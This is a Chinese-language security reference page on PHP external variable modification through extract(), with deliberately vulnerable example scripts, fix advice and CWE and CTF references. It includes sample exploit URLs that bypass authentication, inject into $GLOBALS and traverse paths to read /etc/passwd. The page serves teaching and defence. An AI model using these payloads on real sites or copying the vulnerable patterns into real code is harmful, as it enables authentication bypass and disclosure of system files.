 # 外部变量修改

> 当Web应用程序未能正确处理用户输入时，可能会发生外部变量修改漏洞，允许攻击者覆盖内部变量。在PHP中，如果`extract($_GET)`、`extract($_POST)`或`import_request_variables()`等函数未经适当验证就将用户控制的数据导入全局范围，则可能被滥用。这可能导致安全问题，如未经授权的应用程序逻辑更改、权限提升或绕过安全控制。

## 概述

* [方法论](#方法论)
    * [覆盖关键变量](#覆盖关键变量)
    * [污染文件包含](#污染文件包含)
    * [全局变量注入](#全局变量注入)
* [修复措施](#修复措施)
* [参考文献](#参考文献)

## 方法论

PHP中的`extract()`函数从数组导入变量到当前符号表中。虽然它看起来很方便，但如果处理用户提供的数据时使用不当，可能会引入严重的安全风险。

* 它允许覆盖已存在的变量。
* 可能导致**变量污染**，影响安全机制。
* 可用作触发其他漏洞（如远程代码执行RCE和本地文件包含LFI）的**小工具**。

默认情况下，`extract()`使用`EXTR_OVERWRITE`，这意味着如果输入数组中的键与现有变量同名，则会**替换现有变量**。

### 覆盖关键变量

如果脚本中使用了`extract()`并依赖特定的变量，攻击者可以操纵这些变量。

```php
<?php
    $authenticated = false;
    extract($_GET);
    if ($authenticated) {
        echo "Access granted!";
    } else {
        echo "Access denied!";
    }
?>
```

**利用方式：**

在这个例子中，`extract($_GET)`的使用允许攻击者将`$authenticated`变量设置为`true`：

```ps1
http://example.com/vuln.php?authenticated=true
http://example.com/vuln.php?authenticated=1
```

### 污染文件包含

如果`extract()`与文件包含一起使用，攻击者可以控制文件路径。

```php
<?php
    $page = "config.php";
    extract($_GET);
    include "$page";
?>
```

**利用方式：**

```ps1
http://example.com/vuln.php?page=../../etc/passwd
```

### 全局变量注入

:warning: 自PHP 8.1.0起，不再支持对整个`$GLOBALS`数组的写访问。

当应用程序在不受信任的值上调用`extract`函数时覆盖`$GLOBALS`：

```php
extract($_GET);
```

攻击者可以操纵**全局变量**：

```ps1
http://example.com/vuln.php?GLOBALS[admin]=1
```

## 修复措施

使用`EXTR_SKIP`防止覆盖：

```php
extract($_GET, EXTR_SKIP);
```

## 参考文献

* [CWE-473: PHP外部变量修改 - 常见弱点枚举 - 2024年11月19日](https://cwe.mitre.org/data/definitions/473.html)
* [CWE-621: 变量提取错误 - 常见弱点枚举 - 2024年11月19日](https://cwe.mitre.org/data/definitions/621.html)
* [函数 extract - PHP文档 - 2001年3月21日](https://www.php.net/manual/en/function.extract.php)
* [`$GLOBALS`变量 - PHP文档 - 2008年4月30日](https://www.php.net/manual/en/reserved.variables.globals.php)
* [The Ducks - HackThisSite - 2016年12月14日](https://github.com/HackThisSite/CTF-Writeups/blob/master/2016/SCTF/Ducks/README.md)
* [Extracttheflag! - Orel / WindTeam - 2024年2月28日](https://ctftime.org/writeup/38076)